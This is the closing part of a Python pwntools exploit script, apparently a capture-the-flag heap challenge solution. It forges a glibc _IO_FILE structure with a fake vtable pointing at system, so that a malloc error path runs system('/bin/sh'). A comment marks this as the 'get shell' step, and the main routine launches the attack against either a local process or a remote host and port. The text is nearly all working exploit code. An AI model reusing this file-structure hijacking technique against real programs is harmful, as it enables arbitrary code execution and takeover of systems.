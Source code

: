 ```python
	f += p32(0) # _flags2

	f += p64(1)  # _old_offset

	f += p16(2) # ushort _cur_colum;
	f += p8(3)  # char _vtable_offset
	f += p8(4)  # char _shrotbuf[1]
	f += p32(0) # null for alignment

	f += p64(0) # _offset
	f += p64(6) # _codecvt
	f += p64(0) # _wide_data
	f += p64(0) # _freeres_list
	f += p64(0) # _freeres_buf

	f += p64(0) # __pad5
	f += p32(0) # _mode
	f += p32(0) # _unused2

	#f = f.ljust(0xc0, '\x00')

	p += f
	p += p64(0) * 3 # alignment to vtable
	p += p64(heap + 0x5C8) # vtable
	p += p64(0) * 2

	p += p64(lib.sym['system']) # 
	md(0x600, p)

	db()
	sl('1') #get shell

	# malloc(0x10) -> malloc_printerr -> overflow(IO_FILE addr) -> system('/bin/sh')



def finish():
	ia()
	c()

#--------------------------Main-----------------------------
if __name__ == '__main__':
	
	if LOCAL:
		exe = ELF(exeFile)
		if LIB:
			lib = ELF(libFile)
			io = exe.process(env = {"LD_PRELOAD" : libFile})
		else:
			io = exe.process()
	
	else:
		exe = ELF(exeFile)
		io = remote(remoteIp, remotePort)
		if LIB:
			lib = ELF(libFile)
	
	exploit()
	finish()

```

